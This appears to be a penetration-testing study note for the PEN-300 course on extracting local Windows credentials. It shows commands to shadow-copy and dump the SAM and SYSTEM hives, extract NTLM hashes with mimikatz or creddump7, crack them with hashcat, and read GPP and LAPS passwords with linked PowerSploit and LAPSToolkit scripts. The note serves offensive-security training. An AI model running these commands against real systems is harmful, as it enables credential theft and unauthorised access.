 # PEN-300

#### Local Windows Credentials

## SAM credentials

***theory***: 

Local Windows credentials are stored in the Security Account Manager (SAM) database as password hashes using the NTLM hashing format, which is based on the MD4 algorithm.

We can reuse acquired NTLM hashes to authenticate to a different machine, as long as the hash is tied to a user account and password registered on that machine.

Although it is rare to find matching local credentials between disparate machines, the built-in default-named Administrator account is installed on all Windows-based machines.  


***Attack***:  

To get local client workstation name and administrator RID.  Follow commands below
```plaintext
$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
<br>

<img width="857" height="343" alt="image" src="https://github.com/user-attachments/assets/1f7e1521-032f-4e7a-92f6-0f1827ae132d" />



1) Create shadow copy:          wmic shadowcopy call create Volume='C:\'
2) Locate Shadow copy:          vssadmin list shadows
3) Copy SYSTEM / SAM off of host  
4) mimikatz lsadump::sam /system:systemfile /sam:samfile  
   OR
   creddump7: python pwdump.py ~/data/sam/system ~/data/sam/sam  
   <br>
6) Hashcat the password:  

**Mask attack** ./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
**Password List** .\hashcat.exe -m 1000 -a 0 -w 3 -O hash.txt password_list.txt
<br>

# Hardening the Local Administrator Account

### CPassword  

**Cpassword in the SYSVOL folder on the DC can be viewed with Get-GPPPassword.ps1**  

[Get-GPPPassword.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1)

<br><br>


### LAPS - Local Administrator Password Solution  

***LAPS Toolkit for LAPS enumeration***

[Laps ToolKit download](https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1)

**Get-LAPSComputers**:  
Displays all computers with LAPS enabled, password expriation, and password if user has access  

**Find-LAPSDelegatedGroups:**  
Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute  

**Find-AdmPwdExtendedRights**  
Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights". Sysadmins may not be aware the users with All Extended Rights can view passwords and may be less protected than the users in the delegated groups. An example is the user which adds a computer to the domain automatically receives the "All Extended Rights" permission. Since this function will parse ACLs for each AD computer, this can take very long with a larger domain.  
